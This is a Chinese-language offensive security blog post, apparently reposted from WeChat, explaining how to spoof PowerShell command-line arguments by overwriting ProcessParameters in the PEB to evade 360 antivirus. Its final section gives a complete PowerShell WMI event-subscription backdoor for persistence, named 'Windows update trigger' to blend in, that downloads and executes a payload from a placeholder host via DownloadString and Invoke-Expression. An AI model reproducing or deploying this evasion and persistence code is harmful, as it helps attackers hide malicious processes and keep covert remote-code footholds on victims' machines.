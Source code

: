 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Nxcx5dfYXKqbUyaNCKyrIA)

目录：

        一：原理  

        二：实验步骤

        三：免杀效果

        四：实验步骤

作者：an1m0re7@深蓝攻防实验室

1：原理  

    PEB 结构中 ProcessParameters 是命令行参数，通过在内存中获取到 ProcessParameters 的地址，进行覆盖，替换参数。peb 结构：https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb

2：实验步骤
------

1、首先创建一个 powershell 进程，参数为任意 (不被 360 查杀)，此处我未加参数。 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cUyIcw8a1qGO4V2kPmfSJvicu0K727CPWehNRFYU7fBS1Mo4ibKXWDEMSdMdTAnywOWibfj27ic7hElA/640?wx_fmt=png)2、获取到 peb 地址。 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cUyIcw8a1qGO4V2kPmfSJvyzO58UHRftwZoNCsNPz5yA1wP0HtqY1gaRiaev6Nd0LEu5FNLNRhdDg/640?wx_fmt=png)3、获取到 peb 结构中 ProcessParameters 地址，使用 wpm 函数进行替换。 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cUyIcw8a1qGO4V2kPmfSJvm7XYbk7RJoQzP48rnDAbSxNe4Lmn0FG8s5r6ibrytHsuTLV85kBBUmQ/640?wx_fmt=png)

3：免杀效果
------

查看进程参数发现显示的还是 powershell.exe 没有参数。![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cUyIcw8a1qGO4V2kPmfSJvTBficJnh0biayzcel05TGxicm6IWSk7qoOUEwMv9u7N6eIIHyQW0VShUg/640?wx_fmt=png)

4：持久化
-----

可以配合 wmi 订阅事件后门做持久化。可以 bypass 360

```
$TimerArgs = @{
IntervalBetweenEvents = ([UInt32] 2000) # 30 min
SkipIfPassed = $False
TimerId ="Trigger" };
$Timer = Set-WmiInstance -Namespace root/cimv2 -Class __IntervalTimerInstruction -Arguments $TimerArgs;
$EventFilterArgs = @{
EventNamespace = 'root/cimv2'
Name = "Windows update trigger"
Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'Trigger'"
QueryLanguage = 'WQL' };
$Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $EventFilterArgs;
write-output 'Invoke-Expression(New-Object System.Net.WebClient).DownloadString("http://xxxxxxx/a")' |out-file -filepath 'c:\xxx.ps1'
$FinalPayload = 'c:\agu.exe http://xxxxxxxx/a'

$CommandLineConsumerArgs = @{
Name = "Windows update consumer"
CommandLineTemplate = $FinalPayload
};
$Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $CommandLineConsumerArgs;
$FilterToConsumerArgs = @{
Filter = $Filter
Consumer = $Consumer
};
$FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs;
```

可以配合 wmi 订阅事件后门做持久化。可以 bypass 360

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cUyIcw8a1qGO4V2kPmfSJv9QOLVPC6sfCnAd7dYvCFPRQobR0hADRTVBm3UbGhKibt74AicXQlhj9g/640?wx_fmt=png)